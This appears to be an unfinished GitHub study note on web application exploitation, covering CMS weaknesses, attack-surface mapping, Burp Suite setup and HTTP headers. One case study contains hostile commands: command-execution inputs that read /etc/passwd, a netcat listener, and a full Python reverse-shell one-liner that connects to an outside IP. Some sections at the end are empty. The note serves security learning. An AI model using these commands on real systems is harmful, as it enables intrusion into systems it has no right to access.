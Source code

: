 # Web Application Basics & Exploitation
- Internet Workflow
  ![image](https://github.com/user-attachments/assets/4910ffa0-592d-42ab-955e-c8952e1ec69e)

- Web Application Architecture
  ![image](https://github.com/user-attachments/assets/73c7c49b-b8d5-4801-b5f1-a67680224044)
- Content Management Systems (CMS) offers a flexible, back-end interface for users to edit, modify, and publish content on a website. CMS are fully managed by frameworks
- Over a third of websites online are powered by four key platforms: WordPress, Joomla, Drupal and Magento
- CMS can be hacked due to the following reasons:
  - Outdated version
  - Inexperienced administrators
  - Wide permissions to normal users
  - Malicious plugins
  - Phishing attempts
  - Few are open source



## Custom Web Application Exploitation
#### Case Study: Threat Actor Attempts to Compromise an Organisation-managed Website
1. A website's phpinfo() page
   ![image](https://github.com/user-attachments/assets/cbfbcbe7-1759-4771-918c-33e1f3c5d96d)
2. Execute commands by adding `/?cmd=whoami` at the end of the IP address/URL returns `apache`
3. Adding `/?cmd=hostname` returns `ip-10-1-1-155.us-east-2.compute.internal`
4. Adding `/?cmd=cat /etc/passwd` returns the following
   ![image](https://github.com/user-attachments/assets/9b9e579d-1944-4e78-8343-bef641d6b518)
5. To make the output readable, add `view-source:` before http of the URL
   ![image](https://github.com/user-attachments/assets/183f8a0d-8619-4dcb-82c8-95a3bc20d6e6)
6. The user runs `nc -nlvp 4443` on their system to start Netcat in listening mode (`-l`), does not resolve DNS lookups (`-n`), provides verbose output (`-v`) and specifies port 4443 (`-p 4443`) to listen for incoming connections on that port
7. The following command is added after `/?cmd=` after the URL to establish a reverse shell connection to the attacker's machine
   ```
   python -c 'import socket,subprocess,os;
   s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
   s.connect(("44.202.84.194",4443));
   os.dup2(s.fileno(),0);
   os.dup2(s.fileno(),1);
   os.dup2(s.fileno(),2);
   subprocess.call(["/bin/sh","-i"])'
   ```
    ![image](https://github.com/user-attachments/assets/34fea118-b70d-47f3-b4c3-026d58a256eb)
8. Once the connection is established, commands like `/sbin/ifconfig` and `ps-aux` can be executed to get more details








#### Case Study: Threat Actor Attempts to Compromise WordPress
[Damn Vulnerable WordPress](https://github.com/vavkamil/dvwp) by Kamil Vavra on GitHub

![image](https://github.com/user-attachments/assets/2c960e13-4ed8-4095-b508-f60cd9e19554)
[Botnet of Infected WordPress Sites Attacking WordPress Sites](https://www.wordfence.com/blog/2018/12/wordpress-botnet-attacking-wordpress/) by Wordfence

#### Custom Code (Made from scratch)
- Developer implements the designs / workflow as per the requirement of the project
- Ease of fulfilling the updates as per the requirement, but small update needs to be fixed by a professional developer

#### Hacking websites made from scratch
- Overly misconfigured setup
- Bad business logic
- Vulnerable libraries in the languages
- Integration with multiple other frameworks / languages
- Chaining multiple vulnerabilities
- Other attack vectors

#### Mapping attack surface
![image](https://github.com/user-attachments/assets/9af95055-c09e-4ba3-a8ae-21ae05b5c5a0)
- Attack surface analysis is the mapping of part of a web application that needs to be analysed and tested for security vulnerabilities
- Used by security researchers to understand the in-depth working of the web app
- The main aim is to identify the attack vectors that can be leveraged externally

#### Points worth the time investment
- Login/Logout Fields
- Admin Spaces
- Logic Workflow
- Files uploaded by users
- Extranet interfaces (if any)
- Communication with other applications / systems via interfaces
- Custom implemented protocols / APIs etc
- Critical libraries like : Authentication / Authorization / Session management etc

#### Validate the findings
- Enumeration is the key, take your time to analyse the application workflow
- Identify misconfigurations that are not baselining with the standards
- Identify the risk associated with the identified mis-configurations
- Perform Penetration Testing
- Validate the findings
- Document & Report as required

#### Vulnerabilities
- Server-side Vulnerabilities
  - Command Injection
  - Directory Traversal
  - Server-side Request Forgery (SSRF)
  - SQL Injection
  - File Upload
  - Information Disclosure
- Client-side Vulnerabilities
  - Cross-site Scripting (XSS)
  - Clickjacking
  - Cross-side Request Forgery (CSRF)
  - Cross-origin Resource Sharing (CORS)


## Configure Web Application Debugging & Exploitation Tool (BurpSuite)
1. In Kali Linux VM, start BurpSuite. Choose Temporary Projects and use Burp defaults
2. To configure Proxy in Firefox browser, go to Settings, search for proxy. Select Manual proxy configuration, insert `127.0.0.1` as HTTP Proxy with port 8080. Use the same proxy for HTTPS
   ![image](https://github.com/user-attachments/assets/fad4ff3b-4266-431d-b9de-b8f3e6444180)
3. In a new tab, go to `localhost:8080`. If it works, the Burp Suite Community Edition localhost webpage would appear


## Capture & Modify Requests Using BurpSuite
#### Understanding the Request-Response Model
- The Accounting of who, what and when made the request is not done on the connection endpoints
- In Simple Words, Each request is replied with a response which is not accounted on the either connection endpoints
- Example of the Request-Response Model can be seen below
  ![image](https://github.com/user-attachments/assets/ad7f4607-6599-4ab1-a75f-4483bf90b6d0)

#### Understanding HTTP Request
- When we enter a URL in our browser to view a web page, our browser makes a HTTP Request. A typical HTTP Request looks like
  ![image](https://github.com/user-attachments/assets/19a2b30d-8357-4ce0-a236-d83607831a39)
- HTTP defines a set of request methods to indicate desired action
  - GET method is used to retrieve data
  - POST method is used when user wants to submit entity to specified resource
  - PUT method is used when user wants to replace existing object in the target URL with something else
  - HEAD method is identical to GET, but HEAD is made to retrieve only HEAD without Body in response
  - DELETE method is used to delete specified resource
  - CONNECT method is used to create a tunnel to the server identified by target resource
  - OPTIONS method is used to describe the communication options for the target resource
  - TRACE method performs a message loop-back test along the path to the target resource
  - PATCH method is used to apply partial modifications to a resource
- We can use the `curl` command with the OPTION method to provide all the methods allowed on a specific resource
  `curl -v -X OPTIONS http://www.example.com`
  ![image](https://github.com/user-attachments/assets/8d9a4f37-55b0-4d9e-88ce-70ce045a1fe6)
- The HTTP Host header specifies the domain name of the server and the TCP port number on which the server is listening. If the request is made to the web server with the HTTPS protocol, the default syntax is used
  Syntax of Host header:
  - `Host: <host>:<port>`
  - `Host: www.example.com:4443`
- The HTTP User-Agent header is a characteristic string that lets servers and network peers identify the application, operating system, vendor, and/or requesting user-agent version
  Syntax of User-Agent header:
  - `User-Agent: <product>/<product-version> <comment>` 
  - `User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.6`
- The HTTP Accept header advertises which content types, expressed as MIME types, the client (browser) can understand. MIME (Multipurpose Internet Mail Extensions) is a standard that indicates the nature and format of a document, file, or assortment of bytes
  - `Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8`
- The HTTP Accept-Language header advertises which languages the client can understand, and which locale variant is preferred
  - `Accept-Language: en-US,en;q=0.5`
- The HTTP Accept-Encoding header advertises which content encoding (usually a compression algorithm) the client can understand
  - In order to send large data over the HTTP protocol, the data is encoded. The browser or the client specifies the encoding algorithm that are accepted
  - `Accept-Encoding: gzip, deflate`
- The HTTP Connection header controls whether the network connection stays open or closes after the current transaction finishes. If the value is keep-alive, the connection is persistent and not closed, allowing for subsequent requests to the same server to be done
  - `Connection: close`
- 
  


#### Understanding HTTP Response
- 

    

  
1. After configuring Proxy in Firefox browser, navigate to the Proxy tab in BurpSuite. Switch on the Intercept to intercept requests made to server
2. 



## Internationalised Domain Names (IDN) Homograph Attacks

